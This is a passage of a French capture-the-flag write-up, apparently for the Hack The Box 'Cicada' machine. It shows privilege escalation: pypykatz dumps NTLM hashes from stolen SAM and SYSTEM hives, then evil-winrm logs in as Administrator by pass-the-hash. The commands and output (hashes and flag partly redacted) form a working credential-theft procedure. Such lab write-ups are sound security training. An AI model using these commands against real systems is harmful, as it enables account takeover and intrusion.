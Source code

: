## Escalade de privilège

Nous pouvons utiliser l'outil `pypykatz` afin de récupérer les secrets exfiltrés à l'étape précédente. Nous obtenons ainsi les hashes de mots de passe, notamment du compte **Administrator**

```bash
pypykatz registry --sam sam system
```

{% capture spoil %}
WARNING:pypykatz:SECURITY hive path not supplied! Parsing SECURITY will not work
WARNING:pypykatz:SOFTWARE hive path not supplied! Parsing SOFTWARE will not work
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 3c2b033757a49110a9ee680b46e8d620
============== SAM hive secrets ==============
HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7[...expurgé...]16f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
{% endcapture %}
{% include elements/spoil.html %}

Nous pouvons réutiliser l'outil `evil-winrm` et la technique du *{% include dictionary.html word="pass-the-hash" %}* pour nous connecter à la machine en tant qu'**Administrator**

```bash
evil-winrm -i cicada.htb -u Administrator -H 2b87e7[...expurgé...]16f341
[...expurgé pour brièveté...]
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cicada\administrator
```

Nous pouvons à présent récupérer le contenu du flag présent sur le bureau de l'administrateur

```txt
*Evil-WinRM* PS C:\Users\Administrator\Documents> Get-Content ..\Desktop\root.txt
ed552d[...expurgé...]8abab0
```
